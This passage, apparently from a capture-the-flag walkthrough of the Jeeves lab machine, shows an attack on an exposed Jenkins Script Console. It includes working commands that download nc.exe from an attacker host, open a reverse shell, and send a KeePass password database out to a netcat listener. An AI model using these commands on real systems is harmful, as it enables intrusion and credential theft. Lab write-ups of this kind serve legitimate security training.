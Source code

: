 ![Port 5000 Jetty HTTP Server](https://i.imgur.com/GZf8gNr.png "404 Error on Node, port 
50,000")

Not to be discouraged, and feeling that there's more than meets the eye, let's run dirbuster 
to find any interesting directories. Running dirbuster with 
`/usr/share/wordlists/dirbuster/directory-list-1.0.txt` reveals the 
/askjeeves/ directory, which has Jenkins running.

![Jenkins running on port 50000 in directory askjeeves](https://i.imgur.com/9y8W6pr.png 
"Jenkins running in directory askjeeves")

Under `Manage Jenkins` we see that there is a Script Console. We can use this to execute 
system commands using the general format `println("cmd.exe /c [command]".execute().text)`

![Running dir command using Jenkin's Script Console](https://i.imgur.com/etSU1Lk.png "Running 
dir command using Jenkin's Script Console")

To get an interactive shell, let's download nc.exe onto the machine using the command below, 
with the IP address modified to your own IP address:

`println("cmd.exe /c powershell -c (new-object 
System.Net.WebClient).DownloadFile('http://10.10.14.146/scripts/nc.exe','C:\\Users\\kohsuke\\Desktop\\nc.exe')".execute().text)`

The command below will give you a reverse shell on your machine:

`println("cmd.exe /c c:\\Users\\kohsuke\\Desktop\\nc.exe 10.10.14.146 4445 -e 
C:\\WINDOWS\\System32\\cmd.exe".execute().text)`

After looking around the filesystem, you should come across a `CEH.kdbx` file under 
`C:\Users\kohsuke\Documents`. This is a keepass file that contains a directory of passwords. 

To transfer this file from the Jeeves machine to our local machine, let's set up a netcat 
listener that will take the output and store it in a file:

`nc -nlvp 1234 > CEH.kdbx`

And in our reverse shell, the following command will take the contents of `CEH.kdbx` and send 
it 
to the listener we just set up:

`nc.exe -v 10.10.14.146 1234 < C:\Users\kohsuke\Documents\CEH.kdbx`

```
root@kali:~# nc -nlvp 1234 > CEH.kdbx
listening on [any] 1234 ...
connect to [10.10.14.106] from (UNKNOWN) [10.10.10.63] 49727
^C
root@kali:~# cat CEH.kdbx 
٢�g�K�1����qCP�X!j�Z� ���yݹ�8|E���/�jW���?<q�= 8i�5���U�f�`k��+��&!����<z@�p9<���ب ۑB��O 
Y�0�8�+���!��L��LsiC��e�*�f�J�	 �7f�ecQì�(/Q1�`���d}�gr��
[snip]
```

We now need to use `keepass2john` to create a hash of the CEH.kdbx in order to crack the 
password.
